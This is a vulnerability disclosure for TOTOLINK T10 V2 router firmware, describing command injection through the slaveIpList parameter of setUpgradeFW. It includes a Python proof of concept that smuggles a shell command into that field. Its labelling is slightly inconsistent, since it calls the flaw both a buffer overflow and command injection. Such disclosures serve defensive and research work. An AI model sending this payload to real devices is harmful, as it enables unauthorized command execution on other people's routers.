 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a buffer overflow vulnerability in the `setUpgradeFW` function. The `v6` variable receives the `slaveIpList` parameter from a POST request. However, since the user can control the input of `slaveIpList`, the `sprintf` and `system` can cause a command injection vulnerability.

![image-20240902134019599](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902134019599.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setUpgradeFW",
"FileName":"1",
"slaveIpList":";ls -al ../ ;",
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)

